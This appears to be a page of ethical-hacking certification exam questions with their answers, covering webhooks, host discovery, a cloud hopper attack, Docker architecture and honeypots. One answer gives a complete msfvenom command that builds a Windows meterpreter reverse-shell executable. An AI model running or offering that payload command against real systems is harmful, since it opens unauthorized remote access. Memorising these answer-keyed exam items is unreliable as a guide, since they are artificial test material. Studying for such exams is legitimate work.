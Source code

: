 # Pool 1

___

**000** - Susan, a software developer, wants her web api to update other applications with the latest information. for this purpose, she uses a user-defined http tailback or push apis that are raised based on trigger events: when invoked, this feature supplies data to other applications so that users can instantly receive real-time information.
which of the following techniques is employed by susan?

**> Webhooks**

___

**001** - Andrew is an ethical hacker who was assigned the task of discovering all the active devices hidden by a restrictive firewall in the ipv4 range in a given target network.
which of the following host discovery techniques must he use to perform the given task?

**> arp ping scan**

___

**002** - Alice, a professional hacker, targeted an organization's cloud services. she infiltrated the targets msp provider by sending spear-phishing emails and distributed custom-made malware to compromise user accounts and gain remote access to the cloud service. further, she accessed the target customer profiles with her msp account, compressed the customer data, and stored them in the msp. then, she used this information to launch further attacks on the target organization. which of the following cloud attacks did alice perform in the above scenario?

**> Cloud hopper attack**

___

**003** - Annie, a cloud security engineer, uses the docker architecture to employ a client/server model in the application she is working on. she utilizes a component that can process api requests and handle various docker objects, such as containers, volumes. images, and networks. what is the component of the docker architecture used by annie in the above scenario?

**> Docker daemon**

___

**004** - What is the correct way of using msfvenom to generate a reverse tcp shellcode for windows?

**> msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.30 LPORT=4444 -f exe > shell.exe**

___

**005** - Which of the following information security controls creates an appealing isolated environment for hackers to prevent them from compromising critical targets while simultaneously gathering information about the hacker?

**> Honeypot**

___
